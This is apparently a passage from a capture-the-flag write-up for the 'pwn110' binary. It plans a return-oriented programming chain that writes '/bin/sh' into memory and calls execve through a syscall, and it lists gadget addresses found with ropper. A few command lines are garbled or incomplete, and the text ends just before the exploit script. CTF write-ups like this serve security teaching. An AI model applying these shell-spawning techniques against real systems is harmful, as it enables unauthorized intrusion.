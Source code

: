 Among the results it is not discovered any "pop rdi; pop rsi; ...; ret".

ROP chain:

- padding
- pop rdi; pop rbp; ret
- 59
- "/bin/sh"
- mov rsi, rbp; syscall;


### Stage 1: Overwrite the memory

- padding
- .data
- pop rbp; ret;
- pop rax; ret;
- "/bin/sh\x00"
- dummy
- dummy
- dummy
- mov qword ptr [rbp], rax; mov rax, r12; pop rbp; pop r12; pop r13; ret;

### Stage 2: syscall

- pop rdi; pop rbp; ret
- 59
- .data
- mov rsi, rbp; syscall;

```bash
$ ropper --file=pwn110 --search "pop rbp"
0x0000000000401da1: pop rbp; ret;

$ ropper --file=pwn110 --search "mov [rbp]"
0x000000000046e8bd: mov qword ptr [rbp], rax; mov rax, r12; pop rbp; pop r12; pop r13; ret;

$ ropper --search "pop rax"
0x00000000004497d7: pop rax; ret;

$ --search "pop rdi"
0x000000000040191a: pop rdi; ret;

$ 
0x000000000040181f: pop rdx; ret; 

$ ropper --file=pwn110 --search syscall
0x00000000004173d4: syscall; ret;
```

## Local Exploitation

Below is the `exploit` script built for *debugging*, *local* and *remote* exploitation.
